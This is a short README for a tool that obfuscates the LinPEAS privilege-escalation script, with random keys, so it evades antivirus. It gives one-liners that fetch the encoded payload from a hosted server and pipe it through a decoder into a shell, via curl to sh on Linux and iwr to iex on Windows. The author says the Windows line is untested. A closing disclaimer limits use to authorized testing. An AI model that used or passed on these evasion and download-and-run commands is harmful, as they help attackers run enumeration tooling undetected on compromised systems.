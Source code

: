 # obfuscated_linpeas
Just a quick setup to bypass most AV with LinPEAS
___
Run:
```bash
python3 encode.py linpeash.sh > encoded.txt
```
Fetch the generated password from the `encoded.txt` file (e.g. : `# Key: 3Wr9QKXC`)

Host `encoded.txt` and `decode.sh` and just use the decode usage command (e.g.: `curl http://your_host/encoded.txt | bash decode.sh -p 3Wr9QKXC | sh`)

It should be working with WinPEAS on Windows with `iwr -useb http://your_host/encoded.txt | iwr -useb http://your_host/decode.ps1 | iex -ArgumentList "-Key 3Wr9QKXC"` but I didn't tried it yet.

Each encoding uses a new random key, unique signature every time.

Minimal Bash/Perl decoder to avoid detection.

Works over HTTP, supports stdin piping.
___
This tool is intended for educational and authorized security testing purposes only.
Unauthorized use of obfuscation techniques like this to bypass detection or execute payloads on systems without explicit permission is illegal and unethical.
